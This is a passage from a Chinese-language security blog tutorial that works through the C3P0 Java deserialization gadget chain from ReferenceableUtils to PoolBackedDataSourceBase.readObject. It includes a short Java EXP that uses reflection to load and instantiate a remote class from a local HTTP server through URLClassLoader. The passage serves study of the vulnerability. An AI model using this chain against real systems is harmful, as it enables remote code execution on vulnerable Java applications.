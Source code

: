 我的第一想法是，获取数据源很可能是通过 URLClassLoader 的，事实证明我的这种想法非常愚蠢，因为获取数据源并不是获取一个类。当然，最终也没找到，不过也是有点收获的。

后面又想到了，可能是 Ref 这种类型的类，于是我又回头找了一下，但是因为 IDEA 未能搜索依赖库内的内容，所以就寄了，直接看了其他师傅的文章。

找到的类是 `ReferenceableUtils`，当中的 `referenceToObject()` 方法调用了 `URLClassLoader` 加载类的方法

最后还有类的加载 ———— `instance()`，我们的链子尾部就找好了。

继续往上找，应该是去找谁调用了 `ReferenceableUtils.referenceToObject()`

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/getObject.png)

`ReferenceIndirector` 类的 `getObject()` 方法调用了 `ReferenceableUtils.referenceToObject()`，继续往上找

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/WrongGetObject.png)

`PoolBackedDataSourceBase#readObject()` 调用了 `ReferenceIndirector#getObject()`，同时这也正好是一个入口类。

总结链子流程图如图

#### C3P0 之 URLClassLoader EXP 编写

手写一遍 EXP 试试

先写 `ReferenceableUtils.referenceToObject()` 的 URLClassLoader 的 EXP。
EXP 如下

JAVA

```
public class RefToURLClassLoader {  
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, NamingException, InstantiationException {  
        Class clazz = Class.forName("com.mchange.v2.naming.ReferenceableUtils");  
        Reference reference = new Reference("Calc", "Calc","http://127.0.0.1:9999/");  
        Method method = clazz.getDeclaredMethod("referenceToObject", Reference.class, Name.class, Context.class, Hashtable.class);  
        method.setAccessible(true);  
        Object o = method.invoke(clazz, reference, null, null, null);  
        Object object = method.invoke(o, null, null, null, null);  
    }  
}
```

> 继续往前走，去看一下 `PoolBackedDataSourceBase#readObject()` 方法

这里的 `readObject()` 方法想要进到链子的下一步 `getObject()` 必须要满足一个条件，也就是传入的类必须要是 `IndirectlySerialized` 这个类。

在进行完这个判断之后

JAVA

```
this.connectionPoolDataSource = (ConnectionPoolDataSource) o;
```

执行 `.getObject()` 方法的类从原本的 `PoolBackedDataSourceBase` 变成了 `ConnectionPoolDataSource`，但是 `ConnectionPoolDataSource` 是一个接口，并且没有继承 `Serializable` 接口，所以是无法直接用于代码里面的。

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/ConnectionPoolDataSource.png)
